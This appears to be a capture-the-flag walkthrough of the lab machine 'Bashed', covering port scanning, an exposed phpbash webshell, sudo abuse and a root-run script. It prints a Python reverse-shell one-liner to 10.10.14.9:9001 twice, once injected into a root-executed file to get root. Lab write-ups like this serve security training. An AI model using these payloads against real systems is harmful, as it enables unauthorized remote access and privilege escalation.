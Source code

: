 
![bashed](/assets/basheddefault.png)

## Enumeration {style=text-align:center}

Starting off with an nmap scan: `nmap -sC -sV -O -oA nmap/bashed 10.10.10.68`

Ports open:        
1. 80 - http. 

We can see that only port 80 is open. So, we can try and run our basic tools such as dirb, nikto, etc. 
After doing some enumeration, we find out that there is a webshell running on: `http://10.10.10.68/phpbash.php`. 


![bashed homepage](/assets/bashedhomepage.png)



We can navigate through the files and directories of the webshell, but we cannot switch or privesc to another user, as it spawns a new shell every time we type a new command.   
We can then use netcat to get a rev shell back to our machine and then privesc from there. 
But ncat, nc, netcat doesn't seem to work, so we tried a python shell and it worked. 
Payload used:   
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash").  
  
## Exploitation
Setting up a netcat listener on our machine and then catching the shell:
![shell](/assets/shell.png)

## Privilege Escalation
After looking around the local filesystem we found out that there is a user called **scriptmanager**. 
After using `sudo -l` to list the sudo permissions which we can perform, this is what we get:  

![sudo priv](/assets/sudopriv.png)


As we can see that we can run any command as the scriptmanager user. 
Hence, we run the bash binary as the user scriptmanager to switch user to scriptmanager:  

    sudo -u scriptmanager /bin/bash.  

And we our now the user scriptmanager!   

Now we need to escalate our privileges to root. 
Again looking around in the local filesystem we find out that there is a /scripts directory in the root of the filesystem. 
We notice that there is a /scripts dir present on the machine which is odd.
-After going into that dir, we can see that there are 2 files:
---test.py. 
---test.txt. 

scriptmanager@bashed:/scripts$ cat test.py. 
cat test.py
f = open('test.txt', 'w')
f.write('testing123!')
f.close


We can then see that the test.txt file has the contents testing123!
So, now we know that the file is/can be written somehow from the py file which is present. 

So, we create a different file with the same code. 

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open('yes.py', 'w')
f.write('lego')
f.close



-And now we can see that the file yes.py is owned by root.
-That means that whatever we execute from the yes.py file we can get root from it.


-So we can insert the same py rev shell payload which we used earlier:

scriptmanager@bashed:/scripts$ cat test.py.  
`cat test.py
f = open('yes.py', 'w')
f.write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
f.close`  

Same reverse shell payload used as above. 

Now, we setup a netcat listener on our machine to catch the reverse shell:  
![root](/assets/shell2.png)

And now we are ROOT!!!!



